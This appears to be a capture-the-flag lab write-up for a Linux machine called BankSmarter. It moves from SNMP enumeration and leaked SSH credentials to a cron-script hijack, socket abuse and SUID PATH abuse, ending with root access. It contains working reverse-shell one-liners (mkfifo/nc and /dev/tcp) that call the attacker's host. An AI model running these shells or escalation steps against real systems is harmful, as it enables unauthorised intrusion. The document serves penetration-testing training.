# Lab Report - BankSmarter


# Overview 
- **Difficulty**: Medium
- **Platform**: Linux
- **Link**: https://www.hacksmarter.org/courses/c90bd016-24a5-4776-9f35-819062c51f6f

## Resolution Summary 
After finding that SNMP was running, we discovered exposed SSH credentials when querying OIDs. Next, a cron job was running as `scott.weiland` and was using a script in our home directory. We deleted it and replaced it with a reverse shell, allowing us to gain another access. Furthermore, we discovered and used a socket connection that was running a session as `ronnie.stone`. Finally, we gained root access via a SUID binary which called a script that relied on our (writable) PATH variable to run `python3` (PATH abuse). 

# Walkthrough
- We started by performing an Nmap scan in order to discover any entry points to the target. While we only found SSH available when scanning TCP port, we found that SNMP was available when scanning UDP ports:
```bash
sudo nmap 10.1.63.33 -p- -vv
sudo nmap 10.1.63.33 -sU --top-ports=5
```
<p align="center">
  
</p>
<p align="center">
  
</p>

- Therefore, we started by identifying a community string for the SNMP service, and we found the usual `public` community string to be valid:
```bash
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/snmp-onesixtyone.txt 10.1.63.33
```
<p align="center">
  
</p>

- We started by querying OIDs for information, and we found what seemed to be a pair of credentials: 
```bash
snmpwalk -v2c -c public 10.1.63.33
```
<p align="center">
  
</p>

- Since we found earlier an SSH server, we attempted the following credentials `layne.stanley:5t6^jahTRjab` and gained access to the server: 
```bash
ssh layne.stanley@10.1.63.33
```
<p align="center">
  
</p>

- We collected the first flag: 
```bash
cat /home/layne.stanley/user.txt
```

- We discovered a read only script named `bankSmarter_backup.sh` that seemed to be a scheduled backup task. In order to confirm that, we used `pspy64` to monitor processes.

- First, we server the binary from our attacking machine: 
```bash
python3 -m http.server 80
```

- Then we download it from the target: 
```bash
wget http://10.200.115.15/pspy64
```

- We notice that the `bankSmarter_backup.sh` is executed by `scott.weiland` in a timely manner. 
<p align="center">
  
</p>

- Although we cannot directly edit the script since we only have read permission over it, since we own the parent directory, we can delete then recreate a malicious version of that script.

- First, we set up a listener:
```bash
penelope -p 443
```

- Then we replace the script with a reverse shell, allowing us to gain a shell session as `scott.weiland`:
```bash
rm bankSmarter_backup.sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.200.115.15 443 >/tmp/f' > bankSmarter_backup.sh
chmod +x bankSmarter_backup.sh
```
<p align="center">
  
</p>

- While inspecting `scott.weiland` bash history, we notice that he attempted to connect to a socket connection:
```bash
cat .bash_history
```
<p align="center">
  
</p>

- Upon executing that same command, we get a shell access as `ronnie.stone`:
```bash
socat stdio unix-connect:/opt/bank/sockets/live.sock
whoami
```
<p align="center">
  
</p>

- Afterwards, we identified a custom binary with SUID bit set, and that we could execute now since we were a member of the `bankers` group:
```bash
id
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
<p align="center">
  
</p>

- Before any further exploitation, we executed a reverse shell and stabilized it for ergonomic purposes.

- We set up a listener on our attacking machine:
```bash
penelope -p 445
```

- We executed a reverse shell on the socket session:
```bash
sh -i >& /dev/tcp/10.200.115.15/445 0>&1
```
<p align="center">
  
</p>

- When inspecting the script, noticed that it called another python script (`/usr/local/bin/bank_backup.py`): 
```bash
strings /usr/local/bin/bank_backupd
```
<p align="center">
  
</p>

- When further inspecting the python script, we noticed that `python3` was called by relying on our PATH variable. Therefore, by editing our PATH variable, we can arbitrarily execute code as root.

- Note: the vulnerable line of code was: 
```bash
#!/usr/bin/env python3
```

- First, we edited our `PATH` variable to include the `/tmp` directory and confirmed that it worked: 
```bash
PATH=/tmp:$PATH
export PATH
echo $PATH
```
<p align="center">
  
</p>

- Next, we first created a simple script to confirm that we had root code execution, then we ran the SUID binary:
```bash
echo 'id' > /tmp/python3
chmod +x /tmp/python3
/usr/local/bin/bank_backupd
```
<p align="center">
  
</p>

- Afterwards, we used a reverse shell in order to gain a shell session as root.

- We set up a listener: 
```bash
sudo nc -lnvp 21
```
	- Note: We had issues when using penelope (python3 not found on the target), hence we relied on a simpler shell handler

- We created the malicious binary and executed it via the SUID binary: 
```bash
echo 'rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|sh -i 2>&1|nc 10.200.115.15 21 >/tmp/g' > /tmp/python3
/usr/local/bin/bank_backupd
```
<p align="center">
  
</p>

- Finally, we retrieved the last flag: 
```bash
cat /root/root.txt
```
<p align="center">
  
</p>

# Trophy 
**User.txt → `R29vZCBKb2IgRW51bWVyYXRpbmdscyAtbGEhIEtlZXAgaXQgdXAK`** 

**Root.txt → `VGhhbmtzIGZvciBkb2luZyB0aGUgbWFjaGluZSwgaXQgZG9lcyBtZWFuIGEgbG90LCBsZXQgbWUga25vdyB3aGF0IHlvdSB0aGluawo=`**

# Lessons Learned
- In SSH login, usernames are case-sensitive.
- When having complete ownership of a directory, but not having write permission over a file in that directory:
	- We cannot directly edit it.
	- We can delete it, then re-create it.

- `/usr/bin/env [program name]` is used to locate the program using the PATH environment variable. 
	- Therefore if `PATH` is writable, then the script may be vulnerable to PATH abuse.
